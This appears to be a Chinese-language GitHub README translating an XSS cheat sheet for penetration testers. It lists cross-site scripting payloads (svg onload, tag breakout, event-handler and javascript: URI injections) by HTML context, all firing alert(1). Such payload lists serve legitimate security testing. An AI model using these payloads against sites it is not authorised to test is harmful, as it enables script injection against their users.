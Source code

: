 # XSS_Cheat_Sheet_2020_Edition

## 简介
xss漏洞模糊测试有效载荷的最佳集合 2020版 <br>
该备忘清单可用于，漏洞猎人，安全分析，渗透测试人员，查找web应用的跨站点脚本漏洞 <br>
本备忘录翻译自国外的XSS_Cheat_Sheet_2020_Edition.pdf议题，源文件可在本项目内直接下载 <br>

## 摘要
**1.基本** <br>
**2.高级** <br>
**3.绕过** <br>
**4.利用** <br>
**5.额外** <br>
**6.枚举** <br>

## 内容
**1.HTML Injection （代码注入）** <br>
当输入的payload，被插入到HTML标签或外部标签的属性值内时，则使用下面的方法进行测试，如果输入的内容被插入到了HTML注释，则在payload之前添加"->"
```
<svg onload=alert(1)>
"><svg onload=alert(1)>
```
**2.HTML Injection – Tag Block Breakout（HTML注入–标签闭合）** <br>
当输入的payload，被插入到以下标签的内部时，使用以下标签：<br>
`<title> <style> <script> <textarea> <noscript> <pre> <xmp> <iframe>` （`</tag>`为相应的html标签）。
```
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
```
**3.HTML Injection - Inline （HTML注入-内联标签）** <br>
当输入的payload，被插入到HTML标签的属性值内，但该标签不能以大于号（>）进行闭合。<br>
```
"onmouseover=alert(1) //
"autofocus onfocus=alert(1) //
```
**4.HTML Injection - Source（HTML注入-源）** <br>
当输入的payload，被作为以下HTML标签属性的值使用时：`href`，`src`，`data`或`action`。payload中的`src`属性值可以是一个URL或者`"data:,alert(1)"`。
```
javascript:alert(1)
```

## 致谢
@brutelogic <br>
@farmsec <br>
@farmsec_alice <br>
@farmsec_answer <br>
